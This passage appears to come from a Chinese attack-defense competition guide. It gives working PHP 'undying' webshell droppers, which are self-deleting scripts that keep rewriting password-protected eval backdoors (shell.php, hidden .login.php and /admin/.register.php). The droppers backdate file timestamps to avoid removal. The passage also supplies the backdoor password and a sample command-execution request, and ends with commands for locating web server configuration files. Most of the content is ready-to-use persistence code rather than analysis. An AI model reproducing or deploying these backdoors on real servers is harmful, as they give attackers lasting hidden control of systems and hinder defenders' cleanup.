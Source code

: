 ```php
<?php
ignore_user_abort(true);
set_time_limit(0);
unlink(__FILE__);
$file = 'shell.php';
$code = '<?php if(md5($_POST["passwd"])=="8c7d608cbb4c63f32be59a9ba8c9f49d"){@eval($_REQUEST["cmd"]);} ?>';

while (1){
    file_put_contents($file,$code);
    system('touch -m -d "2020-12-01 09:10:12" shell.php');  //修改时间，防止被删
    usleep(5000);
}
?>

//passwd=AabyssTeam
//POST 传参：passwd=AabyssTeam&cmd=system('ls');
```

将这个文件上传到服务器，然后进行访问，会在该路径下一直生成一个名字为 `shell.php` 的 WebShell 文件

双重不死马：

```php
<?php
ignore_user_abort(true);
set_time_limit(0);
unlink(__FILE__);
$file = '.login.php';
$file1 = '/admin/.register.php'; 
$code = '<?php if(md5($_POST["passwd"])=="8c7d608cbb4c63f32be59a9ba8c9f49d"){@eval($_REQUEST["cmd"]);} ?>';

while (1){
    file_put_contents($file,$code);
    system('touch -m -d "2020-12-01 18:10:12" .login.php');
    file_put_contents($file1,$code);
    system('touch -m -d "2020-12-01 18:10:12" /admin/.register.php');
    usleep(5000);
}
?>

//passwd=AabyssTeam
//POST 传参：passwd=AabyssTeam&cmd=system('ls');
```

浏览器访问写入的 WebShell，会自动生成两个不死马： `.login.php` 和 `/admin/.register.php`

#### 3.3.2 关键文件检索

组件检索

```c
find / -name "apaech2.conf"                 //检索 Apache 主配置文件
find / -name "nginx.conf"                   //检索 Nginx 目录
find / -path "*nginx*" -name nginx*conf     //检索 Nginx 配置目录
find / -name "httpd.conf"                   //检索 Apache 目录
find / -path "*apache*" -name apache*conf   //检索 Apache 配置目录
```
